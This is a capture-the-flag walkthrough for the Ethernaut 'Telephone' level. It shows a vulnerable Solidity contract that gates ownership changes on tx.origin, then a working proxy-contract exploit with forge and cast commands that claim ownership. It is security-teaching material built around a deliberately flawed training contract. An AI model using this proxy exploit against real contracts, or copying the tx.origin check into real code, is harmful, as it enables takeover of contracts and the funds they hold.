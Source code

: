 ## Telephone Level Outline

**Difficulty : 1/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution
we need to send a transaction where `tx.origin != msg.sender`. To do this, we use a proxy contract to call the "changeOwner()" as tx.origin will equal our EOA and msg.sender will equal our deployed contract's address.

### Walkthrough

##### 1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Phone {
    Telephone telephone;

    constructor(address _telephoneAddr) {
       telephone = Telephone(_telephoneAddr);
    } 

    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}

interface Telephone {
    function changeOwner(address _owner) external;
}
```

##### 2. deploy our new contract
```console
forge create src/Contract.sol:Phone --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "changeOwner()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading

